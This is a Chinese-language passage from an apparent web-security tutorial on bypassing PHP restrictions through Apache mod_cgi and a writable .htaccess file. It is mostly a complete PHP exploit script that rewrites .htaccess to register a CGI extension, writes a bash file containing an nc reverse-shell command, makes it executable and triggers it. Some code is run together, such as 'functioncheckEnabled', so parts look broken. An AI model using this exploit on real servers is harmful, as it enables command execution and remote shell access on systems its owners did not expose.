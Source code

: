 ## 利用 Apache+mod_cgi+.htaccess 绕过

**1\. 前提条件**

* 启用mod-cgi
* 允许.htaccess文件
* .htaccess可写

**2\. 基本原理**

在apache的WEB环境中，我们经常会使用.htaccess这个文件来确定某个目录下的URL重写规则，特别是一些开源的CMS或者框架当中经常会用到，比如著名的开源论坛discuz!，就可以通过.htaccess文件实现URL的静态化，大部分PHP框架，例如ThinkPHP和Laravel，在apache环境下会用.htaccess文件实现路由规则。但是如果.htaccess文件被攻击者修改的话，攻击者就可以利用apache的mod_cgi模块，直接绕过PHP的任何限制，来执行系统命令。

**3\. exp**

```php
<?php
$cmd = "nc -c'/bin/bash' 127.0.0.1 4444"; //反弹shell
$shellfile ="#!/bin/bash\n"; //指定shell
$shellfile .="echo -ne \"Content-Type: text/html\\n\\n\"\n"; //需要指定这个header，否则会返回500
$shellfile .="$cmd";
functioncheckEnabled($text,$condition,$yes,$no) //this surely can be shorter
{
   echo "$text: " . ($condition ?$yes : $no) . "<br>\n";
}
if(!isset($_GET['checked']))
{
   @file_put_contents('.htaccess',"\nSetEnv HTACCESS on", FILE_APPEND);
   header('Location: ' . $_SERVER['PHP_SELF']. '?checked=true'); //执行环境的检查
}
else
{
   $modcgi = in_array('mod_cgi',apache_get_modules()); // 检测mod_cgi是否开启
   $writable = is_writable('.'); //检测当前目录是否可写
   $htaccess = !empty($_SERVER['HTACCESS']);//检测是否启用了.htaccess
       checkEnabled("Mod-Cgienabled",$modcgi,"Yes","No");
       checkEnabled("Iswritable",$writable,"Yes","No");
       checkEnabled("htaccessworking",$htaccess,"Yes","No");
   if(!($modcgi && $writable&& $htaccess))
   {
       echo "Error. All of the above mustbe true for the script to work!"; //必须满足所有条件
   }
   else
   {

checkEnabled("Backing
up.htaccess",copy(".htaccess",".htaccess.bak"),"Suceeded!Saved in
.htaccess.bak","Failed!"); //备份一下原有.htaccess

checkEnabled("Write
.htaccessfile",file_put_contents('.htaccess',"Options
+ExecCGI\nAddHandlercgi-script
.dizzle"),"Succeeded!","Failed!");//.dizzle，我们的特定扩展名
       checkEnabled("Write shellfile",file_put_contents('shell.dizzle',$shellfile),"Succeeded!","Failed!");//写入文件
       checkEnabled("Chmod777",chmod("shell.dizzle",0777),"Succeeded!","Failed!");//给权限
       echo "Executing the script now.Check your listener <img src>"; //调用
   }
}
?>

```

